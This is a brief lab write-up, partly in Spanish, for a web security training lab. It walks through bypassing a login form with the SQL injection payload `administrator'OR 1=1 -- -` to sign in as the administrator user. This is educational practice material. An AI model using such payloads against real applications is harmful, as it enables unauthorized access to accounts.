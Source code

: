 This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

Accedemos al panel de `login`

```http
https://0a3cxxxx.web-security-academy.net/login
```

![[Pasted image 20250514170100.png]]

![[Pasted image 20250514170108.png]]

No necesitamos burpsuite. Nos saltamos el check de la query del SQL escapandolo

```sql
administrator'OR 1=1 -- -
```

